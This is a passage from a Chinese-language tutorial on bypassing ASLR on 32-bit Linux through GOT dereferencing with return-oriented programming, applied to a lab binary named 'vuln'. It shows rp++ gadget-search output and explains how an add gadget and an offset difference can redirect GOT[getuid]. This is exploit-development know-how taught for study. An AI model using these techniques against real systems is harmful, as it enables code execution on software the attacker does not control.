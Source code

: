 因此，只要将偏移差(0xfffff530)push到栈中，然后返回到“pop EAX”指令，就能将偏移差拷贝到EAX中。但不幸的是，在我们的二进制文件‘vuln’中并不能找到’pop % eax; ret’ gadget。因此，GOT覆盖就变得不可能了。  

栈布局： 下图描绘了利用gadget链接来做到GOT覆盖  
![](../pictures/alsrgotgor1.png)  



## 0X07 利用ROP做到GOT解引用

-Gadget 1: 首先，我们需要一个gadget来将偏移差添加到GOT[getuid]中，结果需要加载到寄存器中。因此，我们来找出一个’add gadget’将结果拷贝到寄存器中  

``` bash
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 4
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
166 found.
A total of 166 gadgets found.
...
0x08048499: addl $0x0804A028, %eax ; addl %eax, 0x5D5B04C4(%ebx) ; ret ; (1 found)
0x0804849e: addl %eax, 0x5D5B04C4(%ebx) ; ret ; (1 found)
0x08048482: addl %esp, 0x0804A02C(%ebx) ; calll *0x08049F1C(,%eax,4) ; (1 found)
0x0804860e: addl -0x0B8A0008(%ebx), %eax ; addl $0x04, %esp ; popl %ebx ; popl %ebp ; ret ; (1 found)
...
$
```
太棒了，我们找到了一个’add gadget’用来将结果拷贝到寄存器中！现在，如果我们将EBX含有GOT[getuid]+0xb8a0008，EAX含有偏移差，就可以成功执行GOT解引用了！  
